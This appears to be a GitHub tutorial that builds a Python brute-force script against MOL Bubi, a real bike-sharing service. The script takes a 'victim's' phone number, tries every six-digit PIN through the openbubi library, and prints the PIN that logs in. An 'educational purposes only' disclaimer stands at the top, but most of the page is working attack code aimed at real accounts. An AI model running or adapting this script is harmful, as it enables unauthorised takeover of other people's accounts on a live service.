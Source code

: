 # <p align="center">Using for brute force attacks</p>

*Disclaimer: this guide is for educational purposes only. I do not support black-hat hacking, because it is illegal*

## What are we going to do?

We are going to make an algorithm, that tries to login to a MOL Bubi account with every 6-digit password

## Write the program

First of all, make a new Python script in the cloned folder

```bash
mkdir bubiforce && touch bubiforce/bruteforce.py
```

Then import all the necessary modules in the newly created program/script

```python
import sys # for path manipulation
sys.path.append("../") # add openbubi.py's folder to the current path
import openbubi
import json # for converting openbubi output to dictionary
import itertools # for making an iterable object with all the six-digit numbers
import getpass # for getting input from the user without echoing
```

Then get an input from the user about the phone number of the victim

```python
phoneNumber = getpass.getpass("Please enter a phone number: ")
```

Then make a `for` cycle, that iterates over the set of six-digit numbers (using itertools), and tries every possible password for authenticating

```python
# make an iterable object that contains all six-digit numbers, and iterate through that
for i in itertools.product("0123456789", repeat=6):
  # convert the elements of the current tuple to a string
  currentNum = "".join(i)
  # print currentNum out
  print(currentNum)
  # make a new BubiUser instance with the password `currentNum`
  user = openbubi.BubiUser(phoneNumber, currentNum)
  """
  Really long line, but I'll explain it.
  If there is an error while logging in, MOL Bubi returns an error code like this:

  {
  "server_time": 1635867338,
  "error": {
    "code": 1,
    "message": "A felhasználó nem található, vagy a bejelentkezés nem sikerült.",
    "reference": "61815aca3f4fe"
    }
  }

  There is a JSON object, that contains an error key with a value that contains another JSON object with the error code, error message, and reference.
  So, if we want to detect login failure, we need to check, if there is an error key, so we need to:
  1. Convert the output of user.login() to a dictionary
  2. Convert all the keys of this dictionary into a list
  3. Check if the statement 'there is an element in that list called error' is false
  4. If that is false, then we got no errors, and the pin is correct
  """
  if ("error" in list(json.loads(user.info()).keys())) == False: # there is no error
    print(f"Match! The pin is {currentNum}")
    quit() # quit the program

```
